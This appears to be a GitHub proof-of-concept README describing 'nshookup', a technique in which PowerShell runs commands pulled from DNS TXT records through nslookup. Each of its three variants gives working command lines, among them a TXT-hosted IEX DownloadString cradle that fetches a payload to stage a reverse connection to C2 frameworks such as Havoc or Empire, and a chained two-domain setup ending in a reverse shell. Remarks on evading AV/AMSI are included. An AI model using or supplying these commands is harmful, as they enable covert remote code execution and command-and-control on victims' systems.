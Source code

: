 ### Variant 0.1
Commands are stored as TXT entries on a DNS server and requested via nslookup (a.k.a "nshookup").<br><br>
Client executing:.<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry:<br>
`ping google.com`<br><br>
*EXPLANATION: nslookup.exe calls the TXT entry through DNS as subprocess from powershell. This way the stored commands get transmitted over DNS and executed in the context of the current (powershell) process. The number in the square brackets stands for the index (five being the first possible one) of the command. It is also possible to use "[-1]" should there be only a single command available as TXT entry.*<br><br>

The outcome is `powershell ping google.com` being executed in the current session on the clients system.

![GRAPHIC_1](https://github.com/Dood3/PoCs/assets/93183445/ed4ab94c-44fa-4cde-924b-10f26ebbc169)


### Variant 0.2
-> Commands are stored as TXT entries on a DNS server to host a payload/stager for a  reverse connection to a C2 server (Havoc, Empire, etc.).<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: Again, the TXT enty is interpreted as legitimate command through parent & child process being powershell and a DNS request respectively.
The file hosting the payload is not bound to any file formats. A simple file without suffix will work. 
This request will probably trigger AV (AMSI). If "IEX" doesn't get caught, the delivered payload itself most likely will.*<br>

 ![GRAPHIC_2](https://github.com/Dood3/PoCs/assets/93183445/b9052342-258e-4e92-8559-abdec97e44b8)


### Variant 0.3
-> Commands are stored as TXT entries on a domain1.com to host another nslookup command requesting entries from domain2.com.<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server TXT entry (the index may vary):<br>
`powershell (nslookup -q=txt bad-domain2.com)[5]`<br><br>
DNS Server TXT entry on bad-domain_2.com:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: The commands can be chained together with a combination of dns servers. The client requests the first domain, which in return requests the actual commands.on the second server.*<br>
This will most likely trigger AV (AMSI).<br>

1. `powershell (nslookup -q=txt bad-domain.com)[5]`<br>
2. `powershell (nslookup -q=txt bad-domain_2.com)[5]`<br>
3. `Command gets delivered to Client (over dns)`<br>
4. `Reverse shell phoning home`<br>

  ![GRAPHIC_3](https://github.com/Dood3/PoCs/assets/93183445/3243575e-8f56-478b-bf27-f3a1d4788557)

